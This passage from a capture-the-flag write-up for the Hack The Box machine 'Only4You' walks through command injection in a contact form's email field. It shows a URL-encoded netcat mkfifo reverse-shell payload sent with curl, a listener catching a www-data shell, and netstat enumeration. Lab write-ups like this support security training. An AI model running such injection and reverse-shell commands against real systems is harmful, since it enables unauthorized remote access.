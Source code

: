 Now that we can succesfully perform RCE on the machine, we can set up a reverse shell. We will use [revshells](https://www.revshells.com/) to set up a netcat mkfifo reverse shell.

**Sender**

We will send the command from revshells and make sure that it is url encoded so that it is properly processed. I tried quite a few different attempts before I found this one that worked, whether that be inexperience or stupidity I do not know.

```sh
toasty@parrot$ curl -s http://only4you.htb/ -d "subject=mysub&message=mymess&email=toasty@test.com;rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20-i%202%3E%261%7Cnc%2010.10.14.231%209001%20%3E%2Ftmp%2Ff"
```

**Listener**

Start up the nc listener and we will see our connection come back, run `id` to check our user to see we now have access as `www-data`

```console
toasty@parrot$ $nc -lvnp 9001
listening on [any] 9001 ...
connect to [10.10.14.231] from (UNKNOWN) [10.10.11.210] 45048
sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

Let's upgrade that to a fully interactive TTY. We can use methods from [Hacktricks](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys).

### www-data Enumeration

We do a fair number of enumeration tasks and commands to find out information about the system, but using `netstat` we can see that the server is listening on a few ports:\


```sh
www-data@only4you:~/only4you.htb$ netstat -a -p
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN      1045/nginx: worker  
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:8001          0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:33060         0.0.0.0:*               LISTEN      -                   
tcp        0      0 localhost:mysql         0.0.0.0:*               LISTEN      -                   

```
